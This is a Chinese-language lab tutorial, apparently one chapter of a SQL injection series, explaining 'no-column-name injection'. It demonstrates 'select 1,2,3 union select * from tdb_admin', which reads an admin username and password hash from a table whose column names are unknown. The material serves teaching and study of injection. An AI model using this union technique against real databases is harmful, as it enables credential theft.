 # 十一、无列名注入

# 0x00 概要

在无法获取列名的时候很好用

# 0x01 实验数据表



```plain
# tdb_goods表  一共7个字段
mysql> select * from tdb_goods limit 0,1;
+----------+-----------------------+------------+------------+-------------+---------+------------+
| goods_id | goods_name            | goods_cate | brand_name | goods_price | is_show | is_saleoff |
+----------+-----------------------+------------+------------+-------------+---------+------------+
|        1 | R510VC 15.6英寸笔记本 | 笔记本     | 华硕       | 3399.000    |       1 |          0 |
+----------+-----------------------+------------+------------+-------------+---------+------------+
1 row in set
```



```plain
# tdb_admin 表  一共3个字段
mysql> select id,username,password from tdb_admin limit 0,1;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 7fef6171469e80d32c0559f88b377245 |
+----+----------+----------------------------------+
1 row in set
```

# 0x02 实验



假设现在只知道表名不知道列名,但是我们又需要读数据那么我们的sql可以这样写: select 1,2,3 union select * from tdb_admin;



```plain
mysql> select 1,2,3 union select * from tdb_admin;
+---+-------+----------------------------------+
| 1 | 2     | 3                                |
+---+-------+----------------------------------+
| 1 | 2     | 3                                |
| 1 | admin | 7fef6171469e80d32c0559f88b377245 |
+---+-------+----------------------------------+
2 rows in set
```

